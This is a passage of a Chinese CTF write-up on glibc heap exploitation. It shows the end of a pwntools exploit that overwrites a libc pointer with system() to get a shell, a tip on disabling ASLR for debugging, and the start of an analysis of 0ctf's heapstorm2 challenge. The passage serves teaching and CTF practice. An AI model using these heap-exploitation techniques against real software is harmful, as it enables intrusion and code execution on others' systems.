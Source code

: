 ```python
success('lucky!! 0x56!!')

add(0x3d0,'\x00')
add(0x3d0,'\x00')
add(0x300,'\x00')
pay = '\x00'*(0x50-0x20)+p64(libc_base+libc.sym['system'])
add(0x2e0,pay)

edit(0,'Q'*(8+0x90)+'X'*0x10+'/bin/sh\x00')

dele(7)
cn.interactive()
```

ps.在PIE调试时,可以临时关闭aslr,但关闭aslr后heap地址最高位为0x55,fastbin那一步一定会失败
```
sudo su
echo 0 > /proc/sys/kernel/randomize_va_space
```

此外,之所以0x55会失败,0x56会成功的原因在`__libc_malloc`中,
![](largebin_89d292406b70f4ebee639b02c28054df.png)

这里的v4是取出来的size位,`0x55`为`01010101`,`0x56`为`01010110`


----

## 0ctf - heapstorm2

这题出的真的不错,后面largebin那一块的利用一气呵成,出题人水平很高(点赞

首先,保护全开

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```
===== HEAP STORM II =====
1. Allocate
2. Update
3. Delete
4. View
5. Exit
```

程序一共有4个功能

通过chunklist来管理,这个chunklist在init函数中初始化

![](largebin_f17ef0470dafd92ef3dd9e8f59b05809.png)
